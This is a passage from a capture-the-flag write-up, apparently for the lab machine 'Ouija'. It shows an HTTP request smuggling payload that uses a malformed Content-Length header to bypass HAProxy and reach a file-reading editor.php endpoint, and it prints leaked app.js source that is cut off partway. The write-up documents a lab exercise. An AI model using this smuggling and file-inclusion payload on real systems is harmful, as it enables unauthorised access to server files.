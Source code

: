 We can see a bunch of files also from the source code:
	
![dev html 2](./pic/dev_html2.png)
	
We have:
- app.js
- editor.php (with a ?file param to open files)
- init.sh


## LFI

So what i tried to do is open the files with the editor using the HAproxy bypass:
```bash
POST /index.html HTTP/1.1
Host: ouija.htb
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 62


GET http://dev.ouija.htb/editor.php?file=app.js HTTP/1.1
x:Get / HTTP/1.1
Host: ouija.htb


```
With this request we could get app.js<br>
!The content length is the length of the line with GET (GET http://dev.ouija.htb/editor.php?file=app.js HTTP/1.1) + 2 (\r\n) from above. U can easily calculate it with burpsuite by selecting the string!<br>
This is the content of the app.js:
```js
var express = require('express');
var app = express();
var crt = require('crypto');
var b85 = require('base85');
var fs = require('fs');
const key = process.env.k;

app.listen(3000, ()=>{ console.log("listening @ 3000"); });

function d(b){
    s1=(Buffer.from(b, 'base64')).toString('utf-8');
    s2=(Buffer.from(s1.toLowerCase(), 'hex'));
```